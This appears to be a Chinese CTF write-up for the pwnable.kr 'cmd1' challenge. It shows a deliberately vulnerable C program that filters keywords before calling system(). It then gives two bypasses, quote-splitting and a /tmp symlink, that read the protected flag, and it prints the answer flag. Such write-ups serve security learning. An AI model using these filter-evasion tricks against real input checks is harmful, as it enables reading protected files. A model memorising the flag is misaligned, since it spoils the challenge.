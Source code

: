 ```yaml
---
id: 66
title: pwnable.kr-cmd1
date: 2016-08-09T10:12:27+00:00
author: admin
layout: post
guid: http://www.ikow.cn/?p=66
permalink: /pwnable-kr-cmd1/
categories:
  - pwn
tags:
  - cmd
  - pwnable.kr
  - shell拼接
---
```

题目描述：

> Mommy! what is PATH environment in Linux?
> 
> ssh cmd1@pwnable.kr -p2222 (pw:guest)

cmd1.c的源码为：

<pre class="brush: cpp; title: ; notranslate" title="">#include &lt;stdio.h&gt;
#include &lt;string.h&gt;

int filter(char* cmd){
 int r=0;
 r += strstr(cmd, "flag")!=0;
 r += strstr(cmd, "sh")!=0;
 r += strstr(cmd, "tmp")!=0;
 return r;
}
int main(int argc, char* argv[], char** envp){
 putenv("PATH=/fuckyouverymuch");
 if(filter(argv[1])) return 0;
 system( argv[1] );
 return 0;
}
</pre>

看起来过滤了flag,sh,tmp，没有关系，通过shell下面指令拼接可以绕过：

&#8220;/bin/cat &#8216;fl&#8221;ag'&#8221;

> cmd1@ubuntu:~$ ./cmd1 &#8220;/bin/cat &#8216;fl&#8221;ag'&#8221;
  
> mommy now I get what PATH environment is for 🙂

所以最终的flag为：

mommy now I get what PATH environment is for 🙂

&nbsp;

这里更新一种方法：

> cmd1@ubuntu:~$ ls
  
> cmd1 cmd1.c flag
  
> cmd1@ubuntu:~$ mkdir /tmp/cmd1
  
> cmd1@ubuntu:~$ cd /tmp/cmd1
  
> cmd1@ubuntu:/tmp/cmd1$ ln -s /home/cmd1/cmd1 cmd1
  
> cmd1@ubuntu:/tmp/cmd1$ ls
  
> cmd1
  
> cmd1@ubuntu:/tmp/cmd1$ ln -s /home/cmd1/flag f
  
> cmd1@ubuntu:/tmp/cmd1$ ./cmd1 &#8220;/bin/cat f&#8221;
  
> mommy now I get what PATH environment is for 🙂

在/tmp下新建ln，这里就可以绕过对flag的过滤